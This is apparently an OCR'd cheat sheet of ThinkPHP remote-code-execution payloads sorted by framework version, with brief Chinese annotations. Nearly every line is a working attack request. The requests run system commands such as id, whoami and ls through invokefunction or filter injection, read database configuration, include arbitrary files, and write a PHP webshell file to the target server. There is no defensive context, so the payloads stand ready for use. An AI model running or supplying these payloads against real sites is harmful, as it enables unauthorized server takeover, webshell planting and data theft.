 5.0.x  
```
?s=index/think\config/get&name=database.username // 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg // 包含任意文件
?s=index/\think\Config/load&file=../../t.php // 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=whoami
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=whoami
call_user_func 不大行..
?s=index/\think\app/invokefunction?function=call_user_func&vars[0]=system&vars[1]=whoami
?s=index/\think\app/invokefunction&function=call_user_func&vars[0]=system&vars[1]=whoami
?s=index/\think\View/display&content=phpinfo();?>
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][0]=1
s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][0]=2
s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][0]=...
```  
  
5.0.7  
```
aa=file_put_contents('test.php'%2C'%3C%3Fphp+phpinfo()%3B')&_method=__construct&method=POST&filter[]=assert
```  
  
5.0 - 5.0.22  
```
index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1]
[]=-1%20and%20it%27ll%20execute%20the%20phpinfo
```  
  
 5.0.23  
```
 ThinkPHP <= 5.0.23 需要存在xxx的method路由，例如captcha
POST /?s=xxx HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=ls+-al
_method=__construct&filter[]=system&method=get&.=ls
```  
  
   
  
5.1.x  
```
?s=index/\think\Request/input&filter[]=system&data=pwd 
?s=index/\think\view\driver\Php/display&content= 
s=index/\think\template\driver\file/write&cacheFile=shell.php&content= 
s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func&vars[0]=system&vars[1]=whoami
?s=index/\think\request/input?data[]=-1&filter=phpinfo
?s=index/think\app/invokefunction?function=call_user_func&vars[0]=system&vars[1]=whoami
?s=index|think\app/invokefunction&function=call_user_func&vars[0]=phpinfo&vars[1]=1
?s=index/think\request/input?data[]=-1&filter=phpinfo
?s=index/think\app/invokefunction&function=call_user_func&vars[0]=md5&vars[1]=123456
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
?s=index/\think\View/display&content=
?s=index/think\View/display&content=
?s=index/think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami 
s=index/\think\app/invokefunction&function=call_user_func&vars[0]=system&vars[1]=whoami
?s=index/\think\app/invokefunction&function=call_user_func&vars[0]=system&vars[1]=powershell%20ls
chdir
```  
  